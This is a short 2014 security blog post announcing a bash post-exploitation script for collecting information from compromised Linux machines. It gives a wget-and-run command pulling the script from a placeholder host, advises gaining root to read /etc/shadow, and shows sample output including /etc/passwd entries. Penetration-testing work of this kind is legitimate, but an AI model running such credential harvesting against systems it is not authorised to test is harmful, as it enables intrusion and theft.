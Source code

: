```yaml
---
layout: post
title: Linux Post Exploitation
date: '2014-12-18T21:51:00.004-07:00'
author: Sanjiv Kawa
tags:
- Bash
- infosec
- Linux
- Script
- Linux Post Exploitation
- Post
- Exploitation
comments: true
---
```

Gathering useful information from Linux box after exploiting it can be a lengthily and tedious task.
To help automate some of this process I've created a post exploitation script in bash which will gather most of the useful information for you. I still strongly suggest conducting a thorough manual investigation.

For best results try to obtain root privileges before running the script as you'll need this to access files such as /etc/shadow

Download <a href="https://github.com/skahwah/skahwah.github.io/raw/master/_data/Linux_Post.zip">here</a>
{% highlight css %}
cd /
wget http://your.box/linux_post.sh
chmod 755 linux_post.sh
./linux_post.sh > goodies.txt
{% endhighlight %}

Sample output
{% highlight css %}
 Files  
 [*] resolv.conf  
 nameserver 192.168.0.1  
 [*] motd  
 The programs included with the Kali GNU/Linux system are free software;  
 the exact distribution terms for each program are described in the  
 individual files in /usr/share/doc/*/copyright.  
 Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent  
 permitted by applicable law.  
 [*] issue  
 Kali GNU/Linux 1.0.9 \n \l  
 [*] passwd  
 root:x:0:0:root:/root:/bin/bash  
 daemon:x:1:1:daemon:/usr/sbin:/bin/sh  
 bin:x:2:2:bin:/bin:/bin/sh  
 sys:x:3:3:sys:/dev:/bin/sh  
{% endhighlight %}

Send me a message if you have any suggestions!
